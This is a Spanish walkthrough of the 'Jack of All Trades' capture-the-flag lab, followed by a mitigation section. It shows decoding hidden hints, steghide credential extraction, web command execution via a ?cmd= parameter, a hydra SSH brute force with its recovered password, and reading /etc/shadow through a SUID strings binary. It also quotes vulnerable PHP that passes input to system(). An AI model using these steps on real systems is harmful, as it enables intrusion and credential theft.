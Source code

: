 # Jack of All Trades
## Initial Scan
```
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)

```
## Enum
### HTTP
El hecho de que el HTTP este en el puerto 22 complica algunas cosas, pero nada que no podamos solucionar con cURL
En la pagina principal
```
<p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p>
			<p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p>
			<img src="assets/stego.jpg">
			<p>I make a lot of models myself, but I also do toys, like this one:</p>
			<img src="assets/jackinthebox.jpg">
			<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```
Si decodificamos el string con base64 vemos lo siguiente
```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```
Obtengamos el archivo llamdo stego y busquemos esteganografia en el, vemos los strings caracteristicos de steghide, si probanos la contraseña obtenida antes sacaremos un archivo llamado creds.txt, en el pone lo siguiente
```
Hehe. Gotcha!

You're on the right path, but wrong image!
```
Descargamos la otra imagen, en esa no se ha usado steghide, veamos en /recovery.php

#### Recovery.php
En el fuente tenemos lo siguiente
```
		<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```
Si le aplicamos b32, hex to ascii y rot13 obtenemos el siguiente string
```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```
El link nos lleva a 
```
https://en.wikipedia.org/wiki/Stegosauria
```
Parece que me habia adelantado, volvemos a dondde estabamos antes

#### assets
En /assets/ hay 3 imagenes 2 de ellas ya las habiamos analizado , vayamos a por la tercera, en esta al usar steghide con la misma contraseña de antes y obtenemos un archivo llamdo cms.creds 

```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: <Redacted>
```
Parece que no son para el ssh si no para el login en la web, sera mas comodo finalmente hacerlo desde un navegador, para ello en mi caso uso chromiun ya que mi version de firefox no permite modificar los allowed ports
```
chromium-browser --explicitly-allowed-ports=22
```
Entramos y nos logeamos en recovery.php tras esto se nos redirige a la siguiente pagina
```
http://10.10.119.190:22/nnxhweOV/index.php
```
Es cuestion de añadir un 
```
?cmd=
```
y ya tenemos un RCE , listando los directorios en /home encontramos un archivo llamado jack_pass.lst, tiramos de hydra 
```
hydra -l jack -P jack_pass.lst ssh://10.10.68.189:80/
[80][ssh] host: 10.10.68.189   login: jack   password: ITMJpGGIqg1jn?>@
```
Con el siguiente mensaje
```
GET me a 'cmd' and I'll run it for you Future-Jack.
```
## Privesc
El bit SUID esta activo en el archivo string, de modo que podemos abusar de el para leer cualquier archivo en la máquina
```
/usr/bin/strings /etc/shadow
```
Con esto podriamos crackear usando jhon the ripper o hashcat el hash del root para mantener privilegios ,aunque lo intencionado en la máquina es leer la root flag desde aquí

# Analisis de la intrusión
### Sensible data leak
La criptografía debil y la esteganografía son debiles y no deberían usarse para exponer credenciales a simple vista
### RCE 
Existe un endpoint que permite RCE, lo cual es una mala práctica
### SUID bit on strings
El bit SUID esta habilitado en el binario de strings, esto conduce a la posibilidad de leer archivos de manera arbitaria

# Solucion
### RCE 
Eliminar el endpoint que permite RCE seria la mejor mitigación posible, pero si no habría que añadir un filtro al input al menos para evitar la obtención de reverse shells
```
<?php
	session_start();
	if (!isset($_COOKIE["login"])){
		header("location: ../index.html");
		exit();
	}
	echo "GET me a 'cmd' and I'll run it for you Future-Jack.\n";
	if($_COOKIE["login"] === "jackinthebox:a78e6e9d6f7b9d0abe0ea866792b7d84"){
		if (isset($_GET['cmd'])){
			
			echo nl2br(system($_GET['cmd']));
		}
	}
```
### SUID bit on strings
Deshabilitar el SUID de ese binario sería una gran idea
